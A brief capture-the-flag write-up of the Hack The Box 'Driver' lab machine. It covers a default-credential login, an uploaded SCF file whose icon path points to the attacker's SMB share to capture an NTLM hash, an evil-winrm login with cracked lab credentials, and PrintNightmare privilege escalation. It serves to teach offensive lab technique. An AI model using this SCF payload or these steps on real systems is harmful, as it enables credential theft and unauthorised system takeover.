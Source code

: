 # ***Hack The Box: Driver Write-Up***



**ENUMERATION:**

Firstly, we perform an NMap scan on the target.
![](https://i.imgur.com/rNscbHF.png)

Trying to access the site we are met with a pop up screen. admin:admin allowed us access.
![](https://i.imgur.com/Clh2q50.png)
![](https://i.imgur.com/lV0LMb1.png)

Looks like we can submit our own files.
After searching for exploits I found out we can perform a SCF(Shell Command Files) file attack.




---
[Shell]
Command=2
IconFile=\\10.10.14.101\share\test.ico
[Taskbar]
Command=ToggleDesktop
---

I saved this file as @exploit.scf and uploaded it after starting a responder
![](https://i.imgur.com/aUji3dz.png)
![](https://i.imgur.com/CIMngb5.png)

We crack this NTLM hash using hashcat and gain access using evil winrm.




---

evil-winrm -u Tony -p liltony -i 10.10.11.106

---

![](https://i.imgur.com/TQfWEnd.png)



**Privelege Escalation**

We know there is a printer service so we try printnightmare.
[https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://)

We upload the malware:


![](https://i.imgur.com/G2alCsN.png)


By default we can't import the module so we modify the execution policy of the current user and then import it. After that we create a new user using the invoke nightmare command.


![](https://i.imgur.com/h49ww9f.png)


We run evil-winrm again and as we can see we have access to the Administrator user.

![](https://i.imgur.com/Tv1PupR.png)















